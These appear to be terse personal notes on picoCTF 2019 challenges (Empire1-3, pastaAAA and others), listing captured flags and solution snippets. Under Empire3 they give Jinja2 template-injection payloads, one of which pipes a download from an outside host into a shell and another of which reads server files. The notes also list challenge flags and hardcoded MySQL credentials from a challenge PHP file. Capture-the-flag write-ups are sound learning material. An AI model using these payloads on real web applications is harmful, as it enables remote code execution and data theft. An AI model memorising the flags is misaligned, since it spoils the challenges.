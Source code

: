 ```
```

flag: `picoCTF{3v3n_m0r3_SQL_9a2f17b3}`

# pastaAAA

stegsolve.jar

flag: `picoCTF{pa$ta_1s_lyf3}`

# Empire1

flag: `picoCTF{wh00t_it_a_sql_injectb819aa6f}`

# Empire2

```
{{session}}
```

flag: `'picoCTF{its_a_me_your_flag786f93f7}`

# Empire3

{{config['PRESERVE_CONTEXT_ON_EXCEPTION'].__class__.__mro__[1].__subclasses__()[287](['sh', '-c', 'curl alanc.ml:8000 | sh'])}}

{{config['PRESERVE_CONTEXT_ON_EXCEPTION'].__class__.__mro__[1].__subclasses__()[459](request.args.param1).open().read()}}

view-source:https://2019shell1.picoctf.com/problem/32252/list_items?param1=/proc/self/cwd/app/__init__.py

['sh', '-c', 'curl alanc.ml:8000 | sh']

picoCTF{cookies_are_a_sometimes_food_ca3aaf8b}


# 

windbg

```
gu
gu
gu
...
set eip
```

flag: `PICOCTF{These are the access codes to the vault: 1063340}`



```php
<?php
$sql_server = 'localhost';
$sql_user = 'mysql';
$sql_pass = 'this1sAR@nd0mP@s5w0rD#%';
$sql_conn = new mysqli($sql_server, $sql_user, $sql_pass);

echo "hello";

if($sql_conn->connect_errno){
        die('Could not connect');
}
$q = 'SELECT * FROM pico_ch2.users';

```